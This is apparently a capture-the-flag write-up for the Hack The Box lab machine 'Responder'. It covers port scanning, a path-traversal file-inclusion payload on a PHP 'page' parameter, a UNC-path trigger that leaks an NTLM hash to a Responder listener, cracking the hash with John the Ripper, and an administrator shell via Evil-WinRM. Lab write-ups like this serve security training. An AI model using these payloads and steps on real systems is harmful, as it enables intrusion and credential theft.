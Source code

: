 #  Responder

## Nmap Scan
- Used `nmap` to scan all ports.
- Found open HTTP ports: 80 and 5985.
- Found open `tcpwrapped` port (unsure what it is).
- OS detected as Windows.
- Plan: exploit WinRM (Windows Remote Management).

## Website Enumeration
- Visiting IP redirects to `http://unika.htb/`.
- Likely name-based Virtual Hosting.
- `/etc/hosts` updated to point `unika.htb` to IP.

### File Inclusion Vulnerability
- Navigating the site and changing language to French shows:
  `http://unika.htb/index.php?page=french.html`
- Potential LFI vulnerability.
- Accessed files via path traversal:
  `?page=../../../../../../../../windows/system32/drivers/etc/hosts`
- Indicates no input validation on `page` param — likely using `include()` in PHP.

## Exploiting with Responder
- Launched Responder: `sudo python3 Responder.py -I tun0`
- Triggered Responder using: `?page=//<responder-ip>/something`
- NTLM hash captured.

### Cracking the Hash
- Used John the Ripper:
  ```bash
  john -w=/Seclists/Passwords/Leaked-Databases/rockyou-75.txt ./Desktop/hash.txt
  ```
- Password retrieved.

## Getting a Shell
- Logged in with Evil-WinRM:
  ```bash
  evil-winrm -i 10.129.136.91 -u administrator -p [REDACTED]
  ```
